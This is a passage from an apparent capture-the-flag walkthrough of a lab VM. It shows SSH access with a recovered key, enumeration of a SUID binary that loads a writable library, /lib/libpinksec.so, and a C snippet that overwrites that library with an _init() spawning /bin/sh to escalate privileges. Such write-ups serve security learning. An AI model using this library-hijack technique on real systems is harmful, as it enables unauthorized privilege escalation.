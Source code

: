 quick test connection with ssh key:

    ssh -i pinksec pinksec@192.168.56.118 -p 5555

*port 5555 which we enumerated as SSH in our begin recon.*

![](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553815446024_image.png)


Next, we begin our enumeration all over again

$HOME directory

![](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553815590313_image.png)


`pinksecd` has a SUID sticky bit for user “pinksecmanagement”. We now need to figure out exactly how this binary works and figure out an exploit to escalate privileges.

perform `strings` on the binary and quicky see that the application is calling a global library file `libpinksec.so`

![](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553816053596_image.png)


For reference `.so` files refer to shared objects and/or libraries applications call locally.

Listing dependencies of a binary:

    ldd pinksecd

![](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553816228096_image.png)


we can see from our dependencies that `/lib/libpinksec.so` is writeable, which offers an entry way of taking over this shared object and take us further down the road

Navigate to location of `libpinksec.so`

    cd /lib/ && ls -al

![](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553816441036_image.png)


Our current location (sanity check):

- We know that `pinksecd` has a SUID for user “pinksecmanagement”
- We know that pinksecd calls on `libpinksec.so`
- We know the shared object is rewrite-able 

Re-writing libpinksec.so:
First, we create a script to take over a function and return a “/bin/sh”

    #include <unistd.h>
    
    void _init() {
      execve("/bin/sh", NULL, NULL);
    }

![](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553816903989_image.png)

